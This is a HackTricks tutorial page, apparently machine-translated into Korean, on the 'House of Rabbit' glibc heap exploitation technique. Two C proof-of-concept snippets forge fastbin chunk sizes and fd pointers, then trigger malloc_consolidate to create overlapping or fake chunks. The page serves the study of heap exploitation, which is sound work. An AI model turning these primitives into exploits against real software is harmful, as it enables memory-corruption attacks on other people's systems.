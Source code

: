 # House of Rabbit

<details>

<summary><strong>htARTE (HackTricks AWS Red Team 전문가)로부터 AWS 해킹을 제로부터 전문가까지 배우세요</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드하고 싶다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

### 요구 사항

1. **빠른 바이네리 빈(fd 포인터 또는 크기 수정 능력)**: 이는 fastbin의 청크의 전방 포인터 또는 크기를 변경할 수 있는 능력을 의미합니다.
2. **`malloc_consolidate`를 트리거할 수 있는 능력**: 이는 큰 청크를 할당하거나 상단 청크를 병합하여 힙이 청크를 통합하도록 하는 것입니다.

### 목표

1. **중첩된 청크 생성**: 다른 청크와 중첩되도록 하여 추가 힙 조작을 가능케 합니다.
2. **가짜 청크 조작**: 할당기를 속여 가짜 청크를 합법적인 청크로 취급하도록 하는 것입니다.

## 공격 단계

### POC 1: 빠른 바이너리 빈 청크의 크기 수정

**목표**: fastbin 청크의 크기를 조작하여 중첩된 청크 생성.

* **단계 1: 청크 할당**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **단계 2: 청크 해제**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
* **단계 3: 청크 크기 수정**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
* **단계 4: `malloc_consolidate`를 트리거합니다**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
대규모 청크를 할당하면 `malloc_consolidate` 함수가 트리거되어 빠른 bin에서 작은 청크를 병합합니다. `chunk1`의 조작된 크기로 인해 `chunk2`와 겹칩니다.

통합 후 `chunk1`은 `chunk2`와 겹쳐져 추가적인 악용이 가능해집니다.

### POC 2: `fd` 포인터 수정

**목표**: 빠른 bin `fd` 포인터를 조작하여 가짜 청크를 생성합니다.

* **단계 1: 청크 할당**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**설명**: 우리는 가짜 청크를 설정하기 위해 하나는 작고 다른 하나는 큰 두 청크를 할당합니다.

* **단계 2: 가짜 청크 생성**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **단계 3: `chunk1`을 해제합니다**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**설명**: 우리는 `chunk1`을 해제하여 fastbin 목록에 추가합니다.

* **단계 4: `chunk1`의 `fd` 수정**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**설명**: `chunk1`의 전방향 포인터(`fd`)를 `chunk2` 내의 가짜 청크를 가리키도록 변경합니다.

* **단계 5: `malloc_consolidate`를 트리거합니다**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
대규모 청크를 다시 할당하면 `malloc_consolidate`가 트리거되어 가짜 청크를 처리합니다.

가짜 청크는 fastbin 목록의 일부가 되어 추가적인 악용을 위한 합법적인 청크가 됩니다.

### 요약

**House of Rabbit** 기술은 fast bin 청크의 크기를 수정하여 겹치는 청크를 만들거나 `fd` 포인터를 조작하여 가짜 청크를 만드는 것을 포함합니다. 이를 통해 공격자는 힙(heap)에서 합법적인 청크를 조작하여 다양한 형태의 악용을 가능케 합니다. 이러한 단계를 이해하고 연습함으로써 힙(heap) 악용 기술을 향상시킬 수 있습니다.
